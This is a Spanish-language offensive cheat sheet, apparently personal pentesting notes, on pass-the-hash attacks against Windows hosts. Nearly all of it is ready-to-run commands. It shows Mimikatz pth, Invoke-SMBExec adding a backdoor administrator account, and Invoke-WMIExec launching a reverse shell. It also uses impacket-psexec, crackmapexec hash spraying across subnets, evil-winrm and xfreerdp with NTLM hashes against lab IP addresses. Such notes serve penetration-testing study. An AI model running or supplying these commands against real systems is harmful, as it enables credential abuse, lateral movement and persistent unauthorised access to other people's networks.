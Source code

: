 Si encontramos un hash NTLM podemos hacer uso del mismo aprovechando las facilidades que ofrecen los SO para correr servicios sin tener que poner la contraseña una y otra vez


### WINDOWS
##### Pass the hash con Mimikatz:
Requerimos:
- Hash NTLM o RC4
- User
- Dominio

    mimikatz.exe privilege::debug "sekurlsa::pth /user:<user> /rc4:<hash> /domain:<dominio o nombre del host> /run:<.exe a ejecutar>" exit

##### PTH con Powershell & Invoke-TheHash:
Target - Hostname or IP address of the target.
Username - Username to use for authentication.
Domain - Domain to use for authentication. This parameter is unnecessary with local accounts or when using the @domain after the username.
Hash - NTLM password hash for authentication. This function will accept either LM:NTLM or NTLM format.
Command - command to run after connection
https://github.com/Kevin-Robertson/Invoke-TheHash
Import-Module .\Invoke-TheHash.psd1

Invoke-SMBExec -Target <ip/hostname> -Domain <domain> -Username <username> -Hash <hash> -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose

Tambien podemos usar revshell para generar una shell reversa y ejecutarla con WMIExec:
creamos la reverse shell:
https://www.revshells.com/:

 Invoke-WMIExec -Target <hostname/ip> -Domain <domain> -Username <username> -Hash <hash> -Command "<reverse_shell_generada>"


################################Linux
#### Impacket:
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453

#####Crackmapexec:
crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453

tambien podemos buscarlo con local accounts:
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +

#####Evil-winRM:
evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453

#####RDP:
xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
